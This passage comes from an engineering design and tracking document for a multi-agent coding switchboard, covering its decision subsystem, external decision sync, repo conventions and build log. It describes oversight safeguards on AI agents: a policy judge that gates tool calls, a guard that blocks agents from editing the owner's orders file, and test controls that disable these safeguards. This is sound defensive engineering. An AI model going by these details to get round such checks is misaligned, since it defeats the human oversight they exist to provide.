| T5 | Two repos, two orchestrators, a coder | — | An orchestrator sees only its repo's decisions, the Chief of Staff all, you the human tier | PR 18 | offline; the control is a variant that gives the orchestrator the Chief of Staff's view |
| T6 | An agent writes the Chief of Staff's orders file | — | The guard stops the orchestrator and the Chief of Staff alike, with no model call | PR 18 | offline; control `anyone-edits-cos-orders` |

### The Decision baseline

`TestDecisionBaseline*` in `bin/test-switchboard` is a characterisation suite: it pins what the Decision
subsystem does today, so that a refactor of it (extracting a module, putting the sources behind a port) can
prove it changed no behaviour. It runs offline against the fake `gh` and the fake v2, and observes only through
seams that outlive a refactor: the derived list (`decisions --fresh`, and the derivation itself for the notices
the CLI never lists), `decisions.json`, the output of `decisions`, `decisions --json` and the decisions line of
`status`, what `escalate`, `resolve`, `answer`, `supersede` and `batch` do to the fake `gh` and the fake v2, and
the node plugin's view of the same list. It covers every source kind and tier (the grace timer and
escalation), id assignment and collisions, folding a report into its issue, headline cutting, every case of
`report_answered` (a send in the transcript or queued in the inbox, newer reports, withdrawals and their
riders), the per-id results of `supersede`, a batch raised, listed, escalated and answered, the over-1h count,
a `decisions.json` that is not rewritten when nothing changed, the view of each role and the error entries.
The expected outputs are plain files in `scenarios/switchboard/decisions-baseline/` (synthetic names only), so
a refactor changes no test and no file, only the code. Where only an internal function can be called, one
`baseline_*` adapter function in the test file is the single place to repoint. The extraction must keep the
baseline green; a change to a file there is a change of behaviour and is reviewed as one. Record the files
again, after a change that was meant, with `DECISIONS_BASELINE_UPDATE=1 bin/test-switchboard TestDecisionBaseline`.

### The Decision core

The pure rules of the Decision subsystem live in `bin/decision_core.py`, beside the script. The extraction
changed no behaviour: the Decision baseline above passes unchanged, with no expected file and no test touched
(the `baseline_*` adapters still call the old function names, which are now thin wrappers).

| The module owns (pure: plain data in, plain data out)                            | Stays in `bin/fleet-switchboard`                                       |
|----------------------------------------------------------------------------------|------------------------------------------------------------------------|
| the vocabulary: kinds, tiers, statuses, report states, the entry (`Decision`)    | discovery, GitHub, the harness and transcripts, the audit, state files |
| display ids (`assign_ids`, `issue_tag`)                                          | the three source readers and the notice reader                         |
| tier rules: `issue_tier`, `request_tier` (the grace rule), `report_tier`         | delivering an answer to an agent; `escalate`, `resolve`, `answer`      |
| answered-ness: `answered_by_later_report`, `answered_by_send`, `report_answered` | the daemon, the projection file, the CLI, the plugin transport         |
| folding and dedupe (`build_entries`), the notice entry, the list order           | the Lab's fault gate (a fault is passed to the module as an argument)  |
| headline cutting, batch row parsing, the view filters, the over-1h count         | the clock (the caller passes `now`)                                    |

The module reads no file, calls no `gh` or v2, reads no clock and no environment, and does not touch the audit.
It ends with three ports, abstract classes with no implementation yet: `DecisionSource` (reads the open
decisions of one kind from some store), `AnswerDelivery` (delivers an answer to the asker) and `DecisionStore`
(the hook point of an adapter that holds decisions elsewhere). They are used when the sources are put behind
them.

Step 3 put what is I/O behind those ports, still in `bin/fleet-switchboard`, with no change of behaviour (the
baseline is the proof):

| Port                      | Implementations (today's behaviour)                                              |
|---------------------------|----------------------------------------------------------------------------------|
| `DecisionSource`          | `GitHubIssuesSource`, `HarnessRequestsSource`, `ReportsSource`, `PrNoticesSource` |
| `AnswerDelivery`          | `IssueDelivery`, `ReportSendDelivery`, `HarnessReplyDelivery`                    |
| `DecisionStore`           | `LocalStore` (decisions.json and escalated-requests.json)                        |
| `ExternalDecisionAdapter` | `NullExternal` (does nothing: nothing leaves the machine)                        |

Each source wraps the reader it always called. `derive_decisions` walks `DECISION_SOURCE_REGISTRY` in order: the
sources of items (folded and numbered), then the sources of finished entries (`entries = True`, the notices). A source
that raises is one error entry and the others are still listed, audited once per change, as before. A later adapter
registers with `register_decision_source(factory)`, where `factory(engine)` returns a `DecisionSource`. The callers
of an answer (`escalate`, `resolve`, `answer`, `supersede`, a batch answer) keep their refusals and wording and hand
the delivery to the class for its path. `decision_external(engine)` is where an adapter would be found; with none
set it is `NullExternal`. No configuration key was added.

The script loads the module by path from beside its own real path (`load_decision_core`), not by `import`, so it
works the same through a symlink (`~/.local/bin`), from the service units (`python3 -B <kit>/bin/fleet-switchboard`),
from tests that load it with `SourceFileLoader`, and from any directory. Nothing is installed or packaged: the
file is part of the checkout. Python 3.9, standard library only. The old function names (`assign_decision_ids`,
`headline_of`, `report_answered`, `decisions_view`, `parse_decision_rows` and the rest) remain in the script.

### External decision systems

A decision can be mirrored to a system outside the Switchboard, and an answer given there can come back and unblock
the agent. It is **off by default**: with `external_decisions.enabled` false (or absent) no adapter is built, nothing
is called, no file is written, and `status` prints no external line. The Decision baseline pins that.

The pieces:

- **The engine** (`bin/decision_sync.py`, loaded like the core) runs at the end of each daemon pass. It never raises
  into the pass and never changes the local list: a down adapter cannot hide a decision or stop local answering.
- **The port** (`ExternalDecisionAdapter` in `bin/decision_core.py`) is the only thing an adapter implements:
  `health()`, `push(operation, idempotency_key)`, `lookup(key)` and `pull_changes(cursor)`. Every write carries an
  idempotency key and the same key twice is the same write; reads are by cursor and may repeat. An adapter is
  registered under a name and built from the config section, the parsed mapping file and the state directory.
- **Keys.** A decision's key is derived from its source identity (the same seed that numbers it), never from its
  display id. An operation's idempotency key is derived from the decision key, the operation and the revision.
- **The link table** (`external-links.json` in the state directory) holds key to outside id, revision, what was last
  said, the pull cursor and the applied event ids. It is disposable: when it is missing or unreadable the engine asks
  the adapter to look each decision up by its key and rebuilds it.
- **The outbox** (`external-outbox.json`) holds operations not yet delivered: `raise`, `revise`, `status` (a tier change or
  a note) and `withdraw`. They go in order per decision, with backoff, at least once. Past `outbox_alarm_depth` the
  status line and the errors say so; nothing is ever dropped.

What goes outward: decisions of the listed kinds in the listed repos, at every tier, each mapped one to one to the
floor tier the `tier_map` names. A decision that leaves the list (answered, resolved, superseded, withdrawn) is
withdrawn outside, except while its source could not be read (an empty read is not an answer). A question asked
again by the same agent on the same ask is a `revise` of the linked item. An escalation is a tier change. Text is
scrubbed of anything shaped like a credential before it leaves.

What stays local: permission requests (never pushed, never answered from outside), PR notices, decisions of repos
that are not switched on, and every decision's local answering.

Inbound answers are applied once (events are de-duplicated by event id) by the delivery that already serves the asker:
a report by a send to the worker, an issue by a comment and the labels coming off, a batch by the batch answer. Authority
follows the role of the answerer, as the adapter reports it:

| Answerer          | Counts as            | May settle a decision at tier |
|-------------------|----------------------|-------------------------------|
| project agent     | an orchestrator's    | orchestrator                  |
| owner's agent     | the Chief of Staff's | orchestrator, cos             |
| the human         | the human's          | orchestrator, cos, human      |

The owner's agent is judged as well. Role authority only says whose answer it counts as; the owner's standing orders
decide whether it is within what the owner has delegated. An answer by the owner's agent goes through the same
policy judge as the Chief of Staff's own `decisions answer` (the same four questions, the same decision model, the
owner's standing orders file as the authority) and is applied only when the judge allows it. The judge can only
tighten: it is asked after role authority accepted the answer, never instead of it. It fails safe:

- no standing orders file, a file with nothing in it, an unusable file, or a policy judge that is not on: not applied;
  the answer goes to the owner (the decision stays open at its tier, and a status note naming why is pushed back);
- the judge says the answer is outside the orders: the same, with the reason in the audit and in the note;
- the model cannot be asked (a timeout, an error): the decision stays open and the answer is tried again later, with
  a backoff, up to 5 tries; after that it is not applied and the owner decides. A dead judge never holds up other
  answers and never spins.

The project agent's answers (an orchestrator's) and the human's are not judged. A duplicate of an answer that is
waiting for the judge, or that was refused, is still ignored by its event id. No configuration key was added: the
judge is the existing `policy` and `jev` settings, and the orders are the existing standing orders file
(`cos_orders_file`).

An answer from a role below the decision's tier is not applied: it is audited, a status note is pushed back, and the
decision stays. A clarification is sent to the raising agent as a note and is not an answer; the agent's next report
revises the item. A reversal after delivery tells the agent (`answer changed: ...`) and undoes nothing. An answer for
an unknown or already closed decision is an orphan: audited, not delivered. If a decision is answered here and outside
at once, the first writer wins. Answers pick by option id; the text rides along.

Failure modes: adapter down (a visible `external` error entry, the outbox grows, local work goes on); a lost
acknowledgement (the retry carries the same key, so there is no second item); a lost link table (rebuilt by lookup);
a failing delivery of an inbound answer (the event is not marked, the cursor stays, it comes again). Two more:

- An item the outside system **sent it back** (a clarification) is not an answer and not an end. The raising agent is
  told by a note; for a report that note, sent by the report's boss, is also what answers the report here, so the decision
  leaves the local list as it does for any answered report. The link table remembers it was sent back (`sent_back_at`
  and the clarification text) and the outside item is NOT withdrawn. The engine waits for the agent's revision: a newer
  question of the same agent on the same ask is a `revise` of that item and clears the state. If none arrives within 72
  hours the item is withdrawn outside with the reason `no revision after clarification`, audited as
  `external.sent_back_expired`; it is never dropped silently. (A report with no issue has no thread to match, so it waits out
  the 72 hours.)
- An operation the other side **refuses for good** (an invalid body, an unknown item, `already decided`) is raised by the
  adapter with `permanent = True`; every other error, a rate limit and an unavailable service included, is retried with
  backoff. A permanent refusal is dropped from the outbox (with the operations queued behind it for that decision), audited
  as `external.permanent_failure`, marked on the link (`last_error`, `failed_op`) and counted in the status line (`N permanent
  failure(s)`). It never withdraws or answers anything, is not enqueued again while the decision is unchanged, and a later
  change of the decision enqueues a fresh operation. An `already decided` (or closed) reply to a revise, withdraw or status is NOT one of these failures (to a raise it still is: there is no link to settle): the adapter's `AlreadyDecided` carries
  `settled_outside = true`, and the engine reads it as the other side's answer. The operation (and the ones behind it) are dropped and
  audited as `external.settled_outside`, the link is marked `decided_outside`, nothing more is revised, withdrawn or reported for it,
  the next cycle pulls at once so the answer is applied, and any earlier failure of that decision is cleared. The flag counts only as the boolean `true` (a damaged or hand-edited value is read as not settled and removed when the file is loaded), and `status` keeps a settled link whose answer has not come in sight: `settled outside, waiting for its answer: N (oldest 5m)`, until the answer is applied or the link closes. A failure entry is also
  cleared whenever its link closes (answered or withdrawn), so the status count is the genuine failures only (a failed raise has no
  link and stays counted). Every other permanent refusal behaves as above.

`fleet-switchboard status` and `decisions` print one line when it is on: `external  ok; outbox N; last pull 12s ago`
or `external  down: <why>`.

**Work items.** With `external_decisions.work_items` on (it is off by default, and does nothing unless the adapter
in use has a work sink), each worker assignment is mirrored as one external work item, as information for an outside
dashboard; nothing flows back. An assignment is a fleet agent that reports to a boss and holds an ask (an issue in a
repo) in its launch metadata; a worker with no issue is not one. Its identity is the agent name, the repo and the issue,
and the item id is a name-based UUID of that key, so a restart creates no duplicate (the put is idempotent). The same
name on the same issue again is the same assignment, and a finished item stays finished. The fields, in generic words
that the mapping names: `title` (the ask's title or intent line from what the daemon already holds, never a new read),
`kind` (the agent's role), `state` (`queued` launched and no report, `running` working, `awaiting` a question is open or
the worker is idle awaiting input, `blocked`), `progress` (one line from its latest report) and `serves`, which carries
the outside item id of the decision linked to that ask when there is one, else the issue ref `<repo>#<N>` as text. An
assignment ends as `done`, `failed` (its report) or `cancelled` (withdrawn, or the agent gone without a final report for
`work_grace_seconds`), finished exactly once. Writes to one item are at most one per interval (the sink's, never under 60
seconds; the last state wins); a failed write is retried with backoff and never blocks the pass; more than
`work_outbox_alarm_depth` waiting writes raise an alarm and none is dropped. The pump keeps `work-items.json` in the
state directory (disposable: a lost file re-puts the same ids). `status` shows `work items  N open, last write ..., N error(s)`.

Configuration (no key is read from the repo; the mapping file is local):

| Key (`external_decisions`) | Default               | Meaning                                                                                            |
|----------------------------|-----------------------|----------------------------------------------------------------------------------------------------|
| `enabled`                  | `false`               | Off: nothing is called, read or written, and `status` prints no external line.                     |
| `adapter`                  | none                  | The registered adapter's name (`register_external_adapter`). Required when enabled.                |
| `repos`                    | `[]`                  | A project is switched on per repo: only decisions of these repos go outward.                       |
| `kinds`                    | `["issue", "report"]` | What goes: `issue` (batches included), `report`, `question`. Never a permission request.           |
| `mapping_file`             | none                  | Absolute path of a LOCAL file with everything specific to the other system. Required when enabled. |
| `tier_map`                 | none                  | A floor tier name for each of `orchestrator`, `cos`, `human`, one to one. Required when enabled.   |
| `tiers`                    | `["human"]`           | Which fleet tiers are pushed: only what is yours by default. `[]` pushes nothing; `["cos", "human"]` turns the cos tier back on. A decision of a tier not listed is not sent, and one already in the other system is withdrawn there once (it stays a local decision). Each tier at most once; any other name is refused. `tier_map` still names all three. |
| `poll_seconds`             | 30                    | How often answers are pulled.                                                                      |
| `outbox_alarm_depth`       | 1000                  | A deeper outbox raises an alarm in the status line and the errors; nothing is dropped.             |
| `retry_base_seconds`       | 5                     | First backoff of a failed outbound operation; doubles each try.                                    |
| `retry_max_seconds`        | 600                   | The ceiling of the backoff.                                                                        |
| `work_items`               | `false`               | One work item per worker assignment (needs an adapter with a work sink).                           |
| `work_grace_seconds`       | 600                   | An agent gone this long without a final report is finished as cancelled.                           |
| `work_outbox_alarm_depth`  | 1000                  | More waiting work writes than this raises an alarm; none is dropped.                               |

**`tiers` changes what an existing config pushes.** Before it existed every tier was pushed, so a config written then pushes the cos and
orchestrator tiers too; with the default `["human"]` the next daemon pass withdraws those items from the other system (once each), and the
one line `"tiers": ["orchestrator", "cos", "human"]` keeps the old behaviour. A late answer to a withdrawn item is known as closed and delivers nothing.

The mapping file is read by the adapter, not by the engine. What it holds is the adapter's business; typically:

| Typical content of the mapping file                                                                 | Who reads it |
|-----------------------------------------------------------------------------------------------------|--------------|
| where the system is reached (an address)                                                            | the adapter  |
| which project or space on that side holds these decisions                                           | the adapter  |
| where the credential comes from (an environment variable name or a 0600 file; never the credential) | the adapter  |
| the names of its tiers, rooms or queues that the `tier_map` floor names refer to                    | the adapter  |
| how a decision's options are named there                                                            | the adapter  |

#### Switching on the generic adapter (`adapter: "mapping"`)

The Switchboard ships one adapter, registered as `mapping`. It speaks to any system that offers the capabilities of the
port over HTTP and a tool-calling protocol (MCP over streamable HTTP), and everything specific to that system lives in
a local mapping file. Its code is `bin/external_adapter.py`; its header documents every mapping key.

To switch it on for a project:

1. Write the mapping file (local, never committed): the address, the tool and HTTP operations and their field names,
   the words of its tiers and answers, which header carries the credential, and where the credential comes from.
   `base_url` must be `https`, except for a loopback address. An inline credential is refused.
2. Name the key source in the mapping: `env:NAME`, `file:PATH` (the file must be mode 0600 or it is refused) or a
   command (`{"command": [argv...], "timeout": s}`, run once by the daemon at its start, no shell, stdout is the key,
   stderr discarded: this is how a vault fetch works). Two sources are a rotation: the second is tried after a
   refusal. The key is held in memory only; it is never written to the state directory, the audit, `status`, an error
   text or a log, and is scrubbed from any text the adapter raises. (A command's own arguments are visible to
   `ps`: put the secret in the vault, not in the arguments.)
3. In the Switchboard config, add `external_decisions` with `enabled: true`, `adapter: "mapping"`, `mapping_file` (an
   absolute path), `tier_map` (the floor for each of `orchestrator`, `cos`, `human`) and `repos` (the projects that
   are switched on: only decisions of these repos go outward). Restart the daemon.

While `external_decisions` is absent or `enabled` is false, `bin/external_adapter.py` is never read or imported.
When it is on, the adapter is built on the first pass after the daemon starts, and its key source runs once, then.

Failure modes of the start (all of them are `external  down: <why>` in `status` and `decisions`, an `external` entry
in the errors, and an `external.down` audit line; none stops a pass or touches the local list): the mapping file is
missing, is not JSON or is invalid (the first problems are named); the key source fails, times out, names an unset
variable or a file with group or other access; no adapter is registered under the name. A failed start is tried again
only after a backoff (`retry_base_seconds`, doubling up to `retry_max_seconds`), so a key command is not run on every
pass; fixing the file brings it up without a restart. When it comes up, `external.started` is audited.

Failure modes once it is up: a refused credential or an unreachable system is the same `down` line, the outbox grows
and drains, in order and without duplicates, when it is back (a tool session the server forgot is started again by
itself). A refusal that will not pass by itself (an already decided item, an unknown item, an invalid request) carries
`permanent = True`; a rate limit or an outage does not. A system with no operation for a tier change or a note leaves
those local: the adapter lists no `status` capability and does nothing for them.

## Repo and PR conventions

- Work happens in a git worktree of the existing checkout; no second clone.
  The stack's trunk is `main` at `9d22be4`.
- The push remote is `fork` (adamkaplan/fleet-kit), set with
  `git config gh-stack.remote fork` and passed explicitly as `--remote fork`.
  No other remote is pushed, and `main` is never pushed.
- Every `gh stack` command also runs with `GH_REPO=adamkaplan/fleet-kit`.
  `gh stack` picks the repo for PRs from the `origin` remote, which in this
  checkout is a different, private repository, and ignores
  `gh repo set-default`. `gh repo set-default adamkaplan/fleet-kit` still
  covers plain `gh` commands.
- GitHub operations authenticate as the repo owner, one command at a time,
  with `GH_TOKEN` from `gh auth token --user …`. The machine's active gh
  account is never switched.
- This document is edited only on the current top branch of the stack. Each PR
  updates its own row in Status and adds to the Log.
- Commit messages follow the repo's style (`fleet-switchboard: …`,
  `README: …`, `CI: …`, `docs: …`). Tests pass at every commit.
- `bin/test-switchboard` runs in CI from PR 1. It is stdlib only, uses fakes
  for herdr, `opencode api` and GitHub, runs every scenario's offline tier, and
  includes the hygiene checks.
- A PR is marked ready only when every scenario up to it passes in each of its
  tiers, and each scenario's control fails. The PR description carries the
  summary table from `scenario-runs/`.
- Docs land in the same PR as the feature they describe. Each PR links this
  document and carries its own evidence.

## Risks

- **v2 is still 2.0.x, and its HTTP API is marked experimental.** We pin the
  version and keep all v2 calls in one client class.
- **herdr's v2 integration was tested by herdr against one v2 beta.** S6 pins
  a v2 version it works with; a v2 upgrade re-runs S6.
- **Status depends on the TUI plugin.** An agent running v2's Mini or headless
  client reports no status. Fleet agents always run the TUI.
- **GitHub webhook forwarding is documented as testing-only,** and allows one
  forwarder per repo or org. See [GitHub (PR 5)](#github-pr-5) for the
  fallback.
- **Stacked PRs are reviewed bottom-up.** A fix to a lower PR cascades upward
  through `gh stack rebase`, and every push re-runs CI.
- **A wrong classification splits work that belongs together,** or leaves it
  together. Jev runs in shadow mode first, an unsure answer changes nothing,
  and SF2 measures accuracy on real transcripts before it acts.
- **A handoff brief can leave things out.** The subagent starts fresh, so
  whatever the brief misses is lost to it. The brief's sections are checked,
  it is posted on the ask, and SF3 tests that a subagent can continue from it.
- **Jev is a third-party model behind OpenRouter.** If it is slow or
  unavailable, messages are delivered as usual, without classification, and
  tool calls follow the configured rules alone.
- **The policy judge adds latency to every judged tool call,** and a wrong
  "ask" stops an agent until you answer. It runs in shadow mode first (SP2),
  harmless calls skip it, and identical calls are cached.
- **Maxims are only as good as the model reading them.** K1 and K2 test the
  behaviour they are meant to produce, with each role's Maxims block removed
  as the control.
- **The scripted model is not a real model.** Lab-scripted runs prove what v2,
  herdr and the switchboard do; anything that depends on how a model behaves
  is proven in lab-model runs.
- **The real cutover (PR 10).** A v2 install outside the Lab shares v1's config
  and data directories and migrates v1 history on its own. The runbook has to
  plan for this, including upgrading herdr's integration for the live fleet.

## Out of scope for now

Building any adapter other than OpenCode v2 (the hook-based adapter is
specified in [System design](#system-design) but not built); injecting context
into individual model calls; forking sessions; changes to `fleet-heartbeat`.

## Open questions

- Who may change an Intent? Decided: you, or the Chief of Staff with your
  yes. Orchestrators and workers propose; every change is surfaced.
- Does an ask-level header actually reduce drift and dilution in a session
  carrying many asks? PR 7's judges can score orchestrator reports and the
  Chief of Staff's summaries against Done-when, before and after PR 6.
- Should a message ever cover more than one ask, or should each ask get its
  own message, at the cost of more wakes?
- PR 8: notice without a plugin (v2 has no prompt hook), and a fleet worker
  rather than a native subagent: decided by SF1 and SF4. What remains is the
  measured loss rate of the no-plugin notice (the `foreground.late` audit line).
- PR 8: Jev's confidence threshold stays 0.7 until SF2 runs on labelled real
  transcripts; the synthetic first cut agrees with it.
- PR 9: the thresholds for each policy question, chosen from SP2.
- How many lab-model runs per PR? They take minutes each and use real model
  quota; proposed: every lab-model scenario once per PR, re-run only when it
  fails.
- How long is the audit log kept? Proposed: 30 days, configurable.
- PR 5: one forwarder per repo, or one per org with `--org`? Per org covers
  every charter repo with a single hook, but needs the `admin:org_hook` scope
  and blocks anyone else in the org from forwarding.
- Who reviews the stack?
- Should this document stay in `main` after the final merge? Precedent: the
  kit's earlier `PROPOSAL.md` was deleted once its work landed. Until we decide
  at merge time, this stays a tracking document.

## Log

- 2026-10-02: plan agreed; this document committed as the first commit of
  PR 1.
- 2026-10-02: draft PR [#15](https://github.com/adamkaplan/fleet-kit/pull/15)
  opened. The first `gh stack submit` aimed the PR at the `origin` remote's
  repository and failed with nothing created there; pinning `GH_REPO` fixed
  it.
- 2026-10-02: added System design: components, integration touch points
  (herdr, the harness adapter contract, OpenCode v2, a hook-based harness,
  GitHub, agents, you), data sources and records, invariants, key flows and
  failure handling.
- 2026-10-02: added nine Mermaid diagrams: the stack, today's problems, the
  overview, the delivery rule, the adapter contract, the record model, the inbox
  item lifecycle, the worker-finishes sequence, and the Lab's isolation. Each
  one renders with mermaid-cli 12.
- 2026-10-02: GitHub (PR 5) switched from polling to webhooks through
  `gh webhook forward`. The extension never replays missed events (3
  reconnects, then exit), so each forwarder start is followed by one catch-up
  read. Added spike G1, the constraints from GitHub's docs, and the failure
  rows.
- 2026-10-02: redesign after review.
  - **Status from herdr.** herdr 0.9.3's OpenCode integration supports v2
    through a pane-local TUI plugin, so herdr is authoritative for working,
    idle and blocked, and names each pane's session. The switchboard no longer
    reports status itself.
  - **No viewed state.** The fleet is a fan-out you mostly drive through the
    Chief of Staff; engagement is now only "you prompted it in the last 10
    minutes."
  - **Almost no store.** The SQLite store is gone. Pending items are derived
    on each pass; delivered keys live in the recipient's transcript; agent
    identity lives in v2 session metadata. What remains is an audit log and a
    reminders file. Messages carry their items in full, so there is no inbox
    to read and nothing to acknowledge. Live proof F added.
  - **Intent lines replace quotes and threads.** Telephone drift happens
    mostly on the way back up, from orchestrator reports. Quotes captured only
    one side of a conversation, and threads duplicated what a GitHub issue
    already is. Instead, each issue carries a one-line Intent and Done-when,
    every message about it carries those lines in both directions, and changes
    to them are surfaced. PR 6 is now `switchboard/intent`; PR 2 is now
    `switchboard/delivery`.
- 2026-10-02: second review.
  - **Who changes an Intent:** you, or the Chief of Staff with your yes.
  - **Intent is about many asks in one session.** The Chief of Staff and each
    orchestrator are single sessions carrying many asks, so every message names
    its ask and carries that ask's lines. Added the ask level (charter → ask →
    work item) and `fleet-switchboard intents`. The top-level-parent header is
    gone: the charter is never repeated.
  - **Foreground and background is a new PR 8.** The Chief of Staff stays
    serial until an unrelated message from you arrives; then the current work
    continues in the background and it turns to you. The requirement is
    written down; the options for noticing, judging and splitting are left
    open until spikes F1–F3. The v1 move is now PR 9.
- 2026-10-02: third review.
  - **Scenario testing.** Every promised behaviour is a JSON scenario with a
    control that switches its safeguard off. Three tiers: offline in CI with
    fakes and a simulated clock, lab-scripted with real v2 and herdr driven by
    a local scripted model (spike S7), and lab-model with Copilot models.
    Expectations are checked against transcripts, pane reads and GitHub, not
    the switchboard's own account. The old live proof A–F is now part of a
    26-scenario catalog; spikes are kept as scenarios.
  - **Classify with Jev.** One Jev `choice` call per message from you:
    current work, an owned ask, or new. Unsure or unreachable changes nothing.
  - **Hand off, never fork.** The Chief of Staff writes a brief (goal from the
    ask, done so far, next steps, watch out for); `fleet-switchboard handoff`
    posts it on the ask and launches a background subagent with it.
  - **Decorate owned asks.** A message about an ask a background subagent or
    an orchestrator owns is decorated with the owner, so the Chief of Staff
    forwards the details and carries on.
  - **Spike IDs** now all start with S (SG1, SF1–SF4), so they do not collide
    with scenario IDs.
- 2026-10-02: lessons from Firstmate.
  - **Conduct as maxims.** Each role opens with a short Maxims block, plus one
    reach-for-you rubric (grows the contract, can't be undone, speaks for you,
    the key isn't yours, ready for your eyes, stuck), adapted from Firstmate's
    escalation etiquette. Intent lines are your ask, never widened.
  - **No fixed read-only roles.** A new PR 9 judges consequential tool calls
    in context with Jev, through v2's `permission` hook in one thin
    `fleet-hooks` plugin. The judge asks the reach-for-you rubric as four
    yes/no questions, and only ever tightens. The v1 move is now PR 10.
  - **Scenarios** K1–K2 (conduct, judged by Jev) and P1–P6 (policy) added,
    with faults `no-policy-judge`, `judge-loosens` and `no-maxims`.
- 2026-10-02: maxims and hard deny agreed; implementation starts.
  - **Maxims** now include festina lente, Chesterton's fence and "cut the root,
    not the branch" for every role, and "trust, but verify" for the Chief of
    Staff and orchestrators.
  - **"Outside the Intent" is a hard deny.** The agent escalates; only you, or
    the Chief of Staff with your yes, widen the ask.
- 2026-10-02: PR 1 built. `bin/fleet-switchboard` (config, v2 and herdr
  clients, audit log, faults, `status`), `bin/fleet-scenario` (format and
  validator), `bin/test-switchboard` (offline suite, in CI) and
  `bin/proof-switchboard` (Lab, scripted model, spikes). Spikes S1–S7 pass;
  S3 corrected the note: `steer`, not `queue`. The v2 binary must be
  configured by absolute path.
- 2026-10-02: PR 1 ready for review. PR 2 built: the delivery engine (fact
  sources, discovery from herdr and v2 metadata, derived pending, the rule,
  note-to-wake conversion, the `run` loop with a lock, `send`, `pending`),
  offline scenarios W2, B1 and R2 against stateful fakes, the Lab scenario
  runner, and spikes S2–S7 as scenario files. Message ids derive from the
  recipient's session, not its name. The Lab tier of W2, B1 and R2 needs the
  runner to drive the engine; that is next. Scenario vocabulary still has two
  `model_saw` selector styles to reconcile.
- 2026-10-02: PR 2 ready for review. The Lab runner now drives the real
  engine; W2, B1 and R2 pass in the Lab as well as offline. Running against
  real herdr and v2 found two shape errors the fakes had hidden: herdr's
  `agent_session` is an object, and v2 keeps a waiting item's metadata under
  `payload.metadata`. Both fixed, and the fakes now use the real shapes. The
  two runners share one scenario vocabulary.
- 2026-10-02: PRs 3 to 7 built in parallel by separate workers on
  worktrees off PR 2, then rebased into the stack in order and verified
  together. Every tip passes all five suites offline.
  - **PR 3, herdr.** `ensure` and `poke` (a datagram to `poke.sock`, named
    relative to the state dir because macOS caps a socket path at 104 bytes),
    the plugin manifest (not linked: issue #16 Q5), `launch` through
    `layout.apply` with an argv command (it never types into a pane), the
    unread badge, toasts, and a restart guard that refuses a pane running a
    different opencode. The herdr client's argv was corrected against the real
    CLI and the fake herdr now exits 2 on any shape the real one would reject.
    D1 and L1 pass in both tiers.
  - **PR 4, worker events.** `worker.idle` and `worker.blocked` facts derived
    each pass from v2 and herdr, `remind`, and scenarios N1, N2, W1, W3, Q1,
    R1, H1 and R3. `coverage --through-pr N` enforces only the problems whose
    scenarios are due by PR N. Q1's two-hour scenario is offline only: its
    control is the old timer, which is not built in the Lab.
  - **PR 5, GitHub events.** One `gh webhook forward` child per repo, a
    localhost listener that verifies the HMAC before it parses anything, a
    per-start secret held only in memory and in the child's argv, object-id
    keys, and a catch-up read after each forwarder start. G1 to G3 pass
    offline. SG1 stays a spike for a scratch repo.
  - **PR 6, intent.** The `## Intent` and `Done when:` parser and its cache,
    a per-ask section in every message, `intents` and `intent`, `send`
    refusing without `--issue`, and the pure intent-change fact. The role
    definitions gained the maxims, the reach-for-you rubric and a paragraph on
    `[switchboard]` messages, replacing prose they now duplicate. I1 to I3
    pass offline; I4, K1 and K2 are lab-model and wait for the Copilot login.
  - **PR 7, judges.** The Jev client (key read at call time from a named
    environment variable, scrubbed from every error), the shadow classifier
    that logs and acts on nothing, and the policy combiner that never loosens
    a configured outcome. J1 and F5 pass in both tiers.
  - **Reconciliations the rebase forced.** Two toast mechanisms collapsed into
    PR 3's render step, so there is one path to herdr's `notification show`.
    One `toast` oracle serves both runners. PR 7's provider-text scrubber was
    renamed because PR 5 already owned `_scrub`.
  - **Lab verification at the top of the stack.** The whole lab-scripted tier
    passes with every control failing: B1, D1, F5, H1, J1, L1, N1, N2, R1, R2,
    R3, S2 to S7, W1, W2, W3. The first run failed H1 and W3 on the same
    point: the Lab's herdr shim logged the toast correctly, but its oracle
    still read the old `--title` flag, which PR 3 had corrected to a
    positional title. Fixed in PR 4 with a test that reads the argv the real
    client writes, and both pass.
  - **Owed.** The Lab tier of Q1, G1 to G3, I2 and I3 (the runner cannot post
    a signed webhook, play `edit-intent`, or fake GitHub yet); spike SG1 on a
    scratch repo; `session.form.list` is an unverified operation name; v2
    listing is not paged, so a recipient with more than 200 synthetic
    messages in the look-back is held; the two test fakes of GitHub should
    become one.
- 2026-10-02: PRs 8 to 10 built the same way (separate workers, then rebased
  into the stack and verified together), after Lab spikes SF1, SF2 (first cut),
  SF4, SP1 and half of the import spike. Every tip passes all five suites
  offline.
  - **PR 8, foreground.** The classifier can now act, behind
    `classifier_mode` (`shadow` stays the default until SF2 has real labelled
    cases). A decoration is a fact for the Chief of Staff, derived each pass
    from the transcript and the cached classification and delivered as a note
    by the one delivery path. `handoff` builds the brief with the ask's lines
    filled in, refuses one without Done so far and Next steps, posts it as a
    comment on the ask, and launches a `cos-subagent` fleet worker in its own
    tab. Because SF1 showed the notice is a race, the daemon polls every
    `busy_poll_seconds` while a Chief of Staff works, reads your message from
    v2's inbox before it is consumed, and audits a late decoration as
    `foreground.late`. Listing is now paged by v2's cursor, so a recipient with
    many synthetic messages is no longer held. F1 to F4 pass offline.
  - **PR 9, policy.** `judge-tool` and the `fleet-hooks` plugin, rewritten to
    the shape SP1 measured. The deviation SP1 forced: `judge-tool` asks the
    daemon over `judge.sock` instead of calling Jev itself, so the OpenRouter
    key stays out of v2's environment and so out of every agent's shell. The
    charter gains a one-line `Standing authority:`; without it the judge treats
    a merge, deploy, publish or spend as not covered. The judge keeps two small
    disposable cache files (verdict hashes, and resolved asks and sessions), so
    state is no longer strictly the audit log and reminders; deleting them
    loses only the cache. P1 to P6 pass offline.
  - **PR 10, v1 move.** `import-v1` converts a v1 export into v2's transcript
    shape and imports it. It mints fresh session and message ids derived from
    the v1 ones (v2 answers a reused message id with a 500), maps the shell
    tool's name, drops any part v2 has no kind for into a printed and audited
    list, preserves order and time, and is idempotent twice over (metadata
    first, then v2's 409). `docs/switchboard-cutover.md` is the runbook. M1
    passes offline.
  - **Still owed.** The Lab tier of the P scenarios (the plugin has to be linked
    into the Lab), F1 to F3 and M1 (lab-model), and the real v1 export shape;
    whether v2 accepts an imported session without `idle` markers; SF2 on real
    transcripts; SF3.
  - **Lab verification at the top of the stack.** The lab-scripted tier passes:
    21 scenarios, every control failing (B1, D1, F4, F5, H1, J1, L1, N1, N2, R1,
    R2, R3, S2 to S7, W1, W2, W3). The other scenarios are offline or lab-model by
    design, or owed (listed above). The real `fleet-hooks` plugin was then run
    end to end against real Jev, as described under SP1.
